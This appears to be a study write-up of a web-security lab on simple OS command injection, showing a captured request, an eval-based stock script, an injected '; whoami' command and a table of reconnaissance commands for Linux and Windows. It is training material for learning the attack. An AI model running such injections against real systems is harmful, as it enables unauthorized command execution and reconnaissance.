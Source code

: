 # Executing Arbitrary Command

## Lab #1: OS command injection, simple case

Sample request
```
POST /product/stock HTTP/1.1
Host: ace71f1f1f4be8b2802307bb00bd00ce.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:85.0) Gecko/20100101 Firefox/85.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ace71f1f1f4be8b2802307bb00bd00ce.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: https://ace71f1f1f4be8b2802307bb00bd00ce.web-security-academy.net
Connection: close
Cookie: session=Lz8JI5iAyVQkMuRmeoIWRzL9jateSHot

productId=1&storeId=1
```

Example case:
productId = $1
storeId = $2

stockreport.sh
```
#!/bin/bash

set -eu

eval cksum <<< "$1 $2" | cut -c 2-3 | rev | sed s/0/1/
```

Modified body parameter:
```
productId=1&storeId=1
```

Command injection:
```
$ stockreport.sh productId storeId; whoami
```

![1430ab703e5ec5cfe85fa140b55cce35.png](./_resources/a628bb431a5242a88bac1e44b833bd70.png)

## Useful Commands

Initial commands to obtain information.

| Purpose of command 	| Linux 	| Windows | 
| ----------------------| ----------| -------|
| Name of current user 	| whoami 	| whoami |
| Operating system 	| uname -a 	| ver |
|Network configuration 	| ifconfig 	| ipconfig /all |
|Network connections | netstat -an 	| netstat -an |
|Running processes 	| ps -ef 	| tasklist | 